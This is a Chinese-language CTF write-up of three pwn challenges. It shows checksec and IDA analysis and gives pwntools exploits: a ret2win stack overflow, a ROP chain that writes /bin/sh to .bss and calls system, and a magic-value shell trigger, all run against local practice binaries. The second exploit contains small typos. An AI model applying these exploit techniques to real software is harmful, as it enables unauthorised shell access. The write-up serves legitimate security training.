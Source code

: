 # A&D月赛题的复现：

**一般做pwn题的步骤：**

**1.** *先chicksec elf二进制文件*

**2.** *拖入ida看伪代码，查看都有啥函数，看到底用那种方法做。*

**3.** *写exp，边看边写exp*

## 1.worst

### 1.查看保护

![屏幕截图 2024-03-31 094113](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 094113.png)

64位，开启了nx保护，NX保护：**是否启用内存不可执行保护**，*栈上数据不可执行*

Partial RELRO:**got的开头部分被设置为只读，其余部分仍可写**

Full RELRO:**got和plt都为只读，这种状态可以防止对这些结构的修改**

### 2.拖入ida进行分析

![屏幕截图 2024-03-31 094447](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 094447.png)

从这里我们可以看出偏移为8，有read危险函数，可以造成栈溢出

![屏幕截图 2024-03-31 094454](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 094454.png)

然后咱们把函数表每个函数都看一下发现tip函数里面有：

![屏幕截图 2024-03-31 094504](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 094504.png)

后门函数

### 3.写exp

**咱们还要查一下ret**

`ROPgadget --binary worst --only 'pop|ret'`

![屏幕截图 2024-03-31 100351](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 100351.png)

```python
from pwn import*
context(arch='amd64',os='linux',log_level='debug')
p=process('./worst')
offest=8
tip=0x401156
ret=0x40101a
payload=cyclic(offest)+p64(ret)+p64(tip)  #通过栈溢出将返回地址覆盖到tip
p.sendline(payload)
p.interactive()
```

![屏幕截图 2024-03-31 102438](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 102438.png)

**咱们再说一下为啥要加ret了**

在ubuntu18以上版本的系统中，system函数有条指令要求rsp关于0x10字节对齐。加入ret使栈顶被迫下移8个字节，使之对齐16byte。

**题目在这里**：

链接：https://pan.baidu.com/s/183Tn9EDN4hV91PED5XzPzA?pwd=otfr 
        提取码：otfr

## 2.worst—pro

### 1.checksec pwn20

![屏幕截图 2024-03-31 114133](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 114133.png)

### 2.ida伪代码

![屏幕截图 2024-03-31 114204](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 114204.png)

典型的漏洞函数read，偏移量也是8，可以构造栈溢出

![屏幕截图 2024-03-31 114212](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 114212.png)

我们发现有system但是没有bin/sh。那么怎么办了。

栈溢出后我们再次调用一下read函数写入/bin/sh，这样的话，问题就解决了

### 3.exp

![屏幕截图 2024-03-31 115350](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 115350.png)

查一下rdi,rsi等寄存器的值，因为**64位传参要用到这些寄存器**

```python
from pwn import*
context(arch='amd64',os='linux',log_level='debug')
p=process('./pwn20')   #为了好写我就改为pwn20了
elf=ELf('./pwn20')
read=elf.plt['read']
offest=8
tip=0x401156
rdi=0x401179
rsi=0x40117b
bss=elf.bss()  #因为bss段为未初始化的全局变量和静态变量，通常情况下是不能向bss段些东西的，但在一些#特殊情况下，比如攻击者利用栈溢出等手段修改bss段内容是可以的
payload=cyclic(offest)+p64(rdi)+p64(0x0)+p64(rsi)+p64(bss)+p64(read)+p64(rdi)+p64(bss)+p\64(tip)        #先是栈溢出，read有两个参数，rdi将0传给read，作为read的第一个参数，表示输入，rsi
#将bss作为read的第二个参数，就是输入地址，然后调用read函数进行输入，最后通过rdi将bss传给system
p.sendline(payload)
p.sendline(b"/bin/sh\x00")
p.interactive()
```

*咱们接着说64位传参和32位传参*

**64传参是通过寄存器传参的，rdi,rsi,rdx,rcx,r8,r9,其余参数放在栈中，64位先传参再调用函数**

**32位传参是通过栈传参，32位是先调用函数后传参**

**题目在这里：**

链接：https://pan.baidu.com/s/1bo8s-XMUIymRXz_0Qy7RWw?pwd=hbwm 
        提取码：hbwm

## 3.number

### 1.checksec

![屏幕截图 2024-03-31 140735](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 140735.png)

**保护全开逆天了**

### 2.ida看伪代码

![屏幕截图 2024-03-31 141430](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 141430.png)

read函数，当读入buf=0x12345678的时候，会直接返回到system("/bin/sh")

这个不需要进行栈溢出。

有些人可能是这样的

![屏幕截图 2024-03-31 142317](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 142317.png)

**单机305419896，并单击右键，有个hexadecimal，单机它，就会变成16进制**

### 3.exp

```python
from pwn import*
p=process('./qiandao')
p.sendline(p64(0x12345678))
p.interactive()
```

![屏幕截图 2024-03-31 142151](C:\Users\32566\Pictures\Screenshots\屏幕截图 2024-03-31 142151.png)

**题目在这：**

链接：https://pan.baidu.com/s/1RCWfxmOZmgympTE8juIo2Q?pwd=hwum 
        提取码：hwum